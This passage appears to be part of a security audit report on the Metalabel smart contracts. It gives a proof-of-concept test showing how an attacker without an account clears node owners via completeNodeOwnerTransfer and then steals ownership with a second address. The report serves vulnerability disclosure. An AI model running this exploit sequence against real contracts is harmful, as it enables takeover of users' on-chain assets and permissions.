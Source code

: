 After the exploit, the attacker will have access to all the critical functionality in the Metalabel smart contracts protocol, which has some kind of node access control / authorization mechanism.

#### **Proof Of Concept**

Place the following test case in [test/NodeRegistry.spec.ts](https://github.com/metalabel/metalabel-contracts-v1/blob/effe2e89996d6809c5ec6c6da10c663246f91fc1/test/NodeRegistry.spec.ts)

```js
const [user, attacker, attacker2] = await ethers.getSigners()

// User creates an account.
await accountRegistry.createAccount(user.address, '')
const userAccountId = await accountRegistry.resolveId(user.address)

// User creates a node and sets their Metalabel account as the owner of this node.
await createNode({ owner: userAccountId.toNumber() })
const userNode1Id = await nodeRegistry.totalNodeCount()

// User creates a second node and sets their Metalabel account as the owner of this node and
// passes the userNode1Id as a group node.
await createNode({
  owner: userAccountId.toNumber(),
  groupNode: userNode1Id.toNumber(),
})
const userNode2Id = await nodeRegistry.totalNodeCount()

// Assert setup.
expect(await nodeRegistry.ownerOf(userNode1Id)).to.eq(userAccountId)
expect(await nodeRegistry.ownerOf(userNode2Id)).to.eq(userAccountId)
expect(await nodeRegistry.groupNodeOf(userNode2Id)).to.eq(userNode1Id)

// Attacker that has no Metalabel account calls nodeRegistry.completeNodeOwnerTransfer for both user's nodes.
expect(await accountRegistry.resolveId(attacker.address)).to.eq(0)
await nodeRegistry.connect(attacker).completeNodeOwnerTransfer(userNode1Id)
await nodeRegistry.connect(attacker).completeNodeOwnerTransfer(userNode2Id)

// Attacker deletes the owner of the user's node.
expect(await nodeRegistry.ownerOf(userNode1Id)).to.eq(0)
expect(await nodeRegistry.ownerOf(userNode2Id)).to.eq(0)

// Attacker uses a second ethereum address that we owns and registers a Metalabel account with it.
await accountRegistry.createAccount(attacker2.address, '')
const attacker2AccountId = await accountRegistry.resolveId(attacker2.address)

// Attacker calls nodeRegistry.startNodeOwnerTransfer and steals the ownership of the second user's node.
await expect(
  nodeRegistry
    .connect(attacker)
    .startNodeOwnerTransfer(userNode2Id, attacker2AccountId),
).to.not.be.reverted

// Exploit is successful.
expect(await nodeRegistry.pendingNodeOwnerTransfers(userNode2Id)).to.eq(
  attacker2AccountId,
)

// Finish attack.
await expect(
  nodeRegistry.connect(attacker2).completeNodeOwnerTransfer(userNode2Id),
).to.not.be.reverted
expect(await nodeRegistry.ownerOf(userNode2Id)).to.eq(attacker2AccountId)
```